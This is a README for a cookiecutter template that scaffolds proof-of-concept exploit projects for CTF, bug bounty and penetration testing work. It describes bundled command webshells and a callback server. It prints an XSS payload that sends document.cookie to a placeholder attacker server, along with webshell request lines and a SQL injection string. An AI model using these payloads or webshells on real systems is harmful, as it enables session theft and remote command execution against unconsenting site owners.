 # Cookiecutter POC Template

A minimal Python cookiecutter template for quickly creating Proof of Concept (POC) exploits and security tools. Built for speed and simplicity - no unnecessary complexity.

## Features

- **Minimal structure** - Just what you need for POCs
- **Built-in HTTP server** - Log callbacks and serve payloads
- **Utility modules** - Common encoding, timing, process execution helpers
- **Ready-to-use shells** - Command execution webshells for multiple platforms
- **XSS payloads** - Pre-built cookie stealers and data exfiltration
- **Simple CLI** - Argparse-based, no external dependencies
- **Colored output** - Clean status messages with colorama
- **KISS principle** - Keep It Simple, Stupid

## Installation

### Prerequisites

- Python 3.12+
- [uv](https://github.com/astral-sh/uv) (recommended) or pip

### Using the Template

```bash
# With uv (recommended)
uvx cookiecutter https://github.com/kwkeefer/cookiecutter-poc-uv

# Or with pip
pip install cookiecutter
cookiecutter https://github.com/kwkeefer/cookiecutter-poc-uv

# From local clone
cookiecutter /path/to/cookiecutter-poc-uv
```

You'll be prompted for:
- `project_name`: Name of your POC (e.g., "CVE-2024-1234 POC")
- `target_name`: Target system name
- `target_url`: Default target URL
- `poc_description`: Brief description of the vulnerability

## Generated Project Structure

```
your-poc/
├── src/poc/              # Your exploit code
│   ├── exploit.py        # Main exploit logic
│   ├── cli.py            # CLI interface
│   └── utils/            # Helper utilities
│       ├── encoding.py   # Base64, URL, hex encoding/decoding
│       ├── timing.py     # Timestamp generation and timing utilities
│       ├── process.py    # Execute binaries and commands
│       └── output.py     # Colored console output
├── payloads/             # Payloads to serve
│   ├── xss/              # XSS payloads and examples
│   │   ├── examples.txt  # Copy-paste XSS payloads
│   │   ├── steal-cookie.js
│   │   └── steal-all.js
│   └── shells/           # Webshells
│       ├── cmd.jsp       # JSP command shell
│       ├── cmd.aspx      # ASPX command shell
│       └── cmd.php       # PHP command shell
├── servers/              # HTTP server
│   └── server.py         # Log collector & file server
├── logs/                 # Server logs (*.ndjson)
├── pyproject.toml        # Dependencies
└── Makefile              # Setup commands
```

## Quick Start

After generating your project:

### Setup with uv (Recommended)

```bash
cd your-poc
make dev                          # Install dependencies
uv run your-poc --help           # Show help
uv run your-poc --server         # Start callback server (port 8000)
uv run your-poc -t http://target # Run exploit
```

### Setup with pip/venv

```bash
cd your-poc
python -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate
pip install -e .
your-poc --help
```

## Included Utilities

### Encoding (`utils/encoding.py`)
```python
from poc.utils.encoding import base64_encode, url_encode, hex_encode

payload = base64_encode("admin' OR '1'='1")
escaped = url_encode("<script>alert(1)</script>")
```

### Timing (`utils/timing.py`)
```python
from poc.utils.timing import time_ms, epoch_range, identify_timestamp

# Get current timestamp in milliseconds
ts = time_ms()

# Generate timestamps for brute forcing
timestamps = epoch_range("2024-01-01 00:00:00", "2024-01-01 01:00:00")

# Identify unknown timestamp format
info = identify_timestamp("1735689600000")
print(info['type'])  # "epoch_milliseconds"
```

### Process Execution (`utils/process.py`)
```python
from poc.utils.process import run

# Run command
stdout, stderr, code = run("./exploit target.com")

# Send input
stdout, stderr, code = run("./vulnerable", input_data=payload)
```

### Colored Output (`utils/output.py`)
```python
from poc.utils.output import out

out.success("Target is vulnerable!")
out.error("Connection failed")
out.info("Starting exploit")
out.warning("This might take a while")
```

## Usage Guide

### 1. Write Your Exploit

Edit `src/poc/exploit.py`:

```python
from poc.utils.output import out

def run(args):
    target = args.target.rstrip('/')

    out.info("Checking target...")
    response = requests.get(f"{target}/vulnerable", verify=False)

    if "success" in response.text:
        out.success("Exploited successfully!")
```

### 2. Start Callback Server

```bash
# Start server to log callbacks
uv run your-poc --server

# Or run directly
uv run python servers/server.py -p 8080
```

The server:
- Serves files from `payloads/` directory
- Logs ALL requests to `logs/server.ndjson`
- Supports CORS for XSS testing

### 3. Use Included Payloads

XSS payloads in `payloads/xss/examples.txt`:
```html
<img src=x onerror="fetch('http://YOUR-SERVER:8000/xss?c='+btoa(document.cookie))">
```

Webshells work consistently across platforms:
```python
# All shells use same interface
requests.get("http://target/cmd.jsp?cmd=whoami")
requests.get("http://target/cmd.aspx?cmd=whoami")
requests.get("http://target/cmd.php?cmd=whoami")
```

### 4. Check Logs

```bash
# Watch logs in real-time
tail -f logs/server.ndjson | jq .

# Search for specific callbacks
grep "blind" logs/server.ndjson | jq .
```

## Philosophy

This template follows the KISS principle:
- One file for your exploit
- One server that does everything
- Minimal dependencies
- No complex abstractions
- Fast iteration over perfection

Perfect for:
- CTF challenges
- Bug bounty POCs
- Security research
- Quick vulnerability demos
- Penetration testing

## License

MIT